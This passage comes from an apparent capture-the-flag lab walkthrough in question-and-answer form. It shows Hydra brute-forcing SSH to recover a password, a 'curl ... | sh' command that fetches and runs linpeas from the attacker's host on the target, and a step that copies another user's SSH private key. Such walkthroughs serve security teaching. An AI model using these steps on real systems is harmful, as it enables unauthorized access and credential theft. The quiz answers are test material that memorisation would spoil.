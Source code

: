```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-15 08:39:20
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.103.107:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 124.00 tries/min, 372 tries in 00:03h, 14344029 to do in 1927:58h, 16 active
[22][ssh] host: 10.10.103.107   login: jan   password: armando
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-15 08:46:06
```

`armando`

7. What service do you use to access the server(answer in abbreviation in all caps)?

`ssh`

8. Enumerate the machine to find any vectors for privilege escalation

- Hacker: `sudo python3 -m http.server 80`
- Target: `curl http://10.8.106.222/linpeas.sh | sh`

```
[+] Files inside others home (limit 20)
/home/kay/.profile
/home/kay/.viminfo
/home/kay/.bashrc
/home/kay/.bash_history
/home/kay/.lesshst
/home/kay/.ssh/authorized_keys
/home/kay/.ssh/id_rsa
/home/kay/.ssh/id_rsa.pub
/home/kay/.bash_logout
/home/kay/.sudo_as_admin_successful
/home/kay/pass.bak
```

- Copy/Paste `/home/kay/id_rsa` to Hacker

`no answer needed`

9. What is the name of the other user you found(all lower case)?

`kay`

10. If you have found another user, what can you do with this information?
